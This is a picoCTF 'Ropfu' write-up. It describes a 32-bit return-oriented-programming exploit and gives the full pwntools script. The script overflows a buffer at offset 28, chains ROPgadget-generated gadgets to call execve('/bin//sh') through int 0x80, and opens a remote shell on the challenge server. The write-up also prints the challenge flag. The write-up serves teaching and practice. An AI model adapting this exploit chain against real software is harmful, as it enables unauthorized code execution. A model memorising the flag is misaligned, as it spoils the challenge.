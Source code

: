 # Ropfu
 
## Challenge Description: What's ROP?

From the name of this challenge, it was pretty clear that ROP was needed to solve the challenge. Interestingly, the binary supplied was **32 bit** instead of **64 bit** in challenges that I've done before. Stitching the gadgets would be slightly different since 32 bit programs generally store their function parameters on the stack instead of the registers for 64 bit.

To solve the challenge, I performed the following: 
* Determined the offset of **28** from GEF
* Referred to this [article](http://shell-storm.org/blog/Return-Oriented-Programming-and-ROPgadget-tool/) on using **ROPGgadget**
* Used **--ropchain** from **ROPGgadget** to generated the payload 
* Made the following adjustments for a payload originally meant for *python2*
  * Imported python3's **pwn** library instead of python2's **struct**
  * Replaced **pack('<I', 0x080583c9)** with **p32(0x080583c9)**

The final payload is as follows: 
  
```python
from pwn import *

e = context.binary = ELF('./vuln', checksec=False)
r = remote('saturn.picoctf.net',56464)

offset = 28
p = b"A" * offset
p += p32(0x080583c9) # pop edx ; pop ebx ; ret
p += p32(0x080e5060) # @ .data
p += p32(0x41414141) # padding
p += p32(0x080b074a) # pop eax ; ret
p += b'/bin'
p += p32(0x08059102) # mov dword ptr [edx], eax ; ret
p += p32(0x080583c9) # pop edx ; pop ebx ; ret
p += p32(0x080e5064) # @ .data + 4
p += p32(0x41414141) # padding
p += p32(0x080b074a) # pop eax ; ret
p += b'//sh'
p += p32(0x08059102) # mov dword ptr [edx], eax ; ret
p += p32(0x080583c9) # pop edx ; pop ebx ; ret
p += p32(0x080e5068) # @ .data + 8
p += p32(0x41414141) # padding
p += p32(0x0804fb90) # xor eax, eax ; ret
p += p32(0x08059102) # mov dword ptr [edx], eax ; ret
p += p32(0x08049022) # pop ebx ; ret
p += p32(0x080e5060) # @ .data
p += p32(0x08049e39) # pop ecx ; ret
p += p32(0x080e5068) # @ .data + 8
p += p32(0x080583c9) # pop edx ; pop ebx ; ret
p += p32(0x080e5068) # @ .data + 8
p += p32(0x080e5060) # padding without overwrite ebx
p += p32(0x0804fb90) # xor eax, eax ; ret

# eax needs to be incremented to 11 for the execve syscall
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret

# Invoke a system call and execute our code
p += p32(0x0804a3d2) # int 0x80

r.sendline(p)
r.interactive()
```

Running the payload above produced the flag.


FLAG: `picoCTF{5n47ch_7h3_5h311_c6992ff0}`

